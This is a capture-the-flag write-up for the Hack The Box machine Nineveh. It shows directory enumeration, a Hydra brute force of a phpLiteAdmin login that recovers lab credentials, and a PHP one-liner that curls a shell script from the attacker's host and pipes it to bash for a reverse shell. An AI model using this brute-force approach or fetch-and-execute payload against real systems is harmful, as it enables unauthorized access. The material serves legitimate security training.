


# 15 - HTTPS


# index.php


Let's run gobuster against it.

# Gobuster


```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh/gobuster]
└─$ cat https.log 
/index.html           (Status: 200) [Size: 49]
/db                   (Status: 301) [Size: 309] [--> https://nineveh.htb/db/]
/server-status        (Status: 403) [Size: 300]
/secure_notes         (Status: 301) [Size: 319] [--> https://nineveh.htb/secure_notes/]
```


# db/index.php


After trying admin, amrois as phpliteadmin password let's try bruteforcing the password because it's way more efficient.

# Hydra

```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form '/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-29 15:19:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&test=^USER^&login=Log+In&proc_login=true:Incorrect
[STATUS] 225.00 tries/min, 225 tries in 00:01h, 14344174 to do in 1062:32h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-29 15:22:31
```
We get a default password 

Creds
* login: admin 
* password: password123

# phpLiteAdmin page




# Searchsploit


# Exploit


# Let's create the database


Remember LFI requires the word **Notes**?

# Create a table
 

# Upload the reverse shell


```php
<?php system("curl $IP/shell.sh | bash");?>
```

Single quotes didn't work for me


# Initial Shell Access
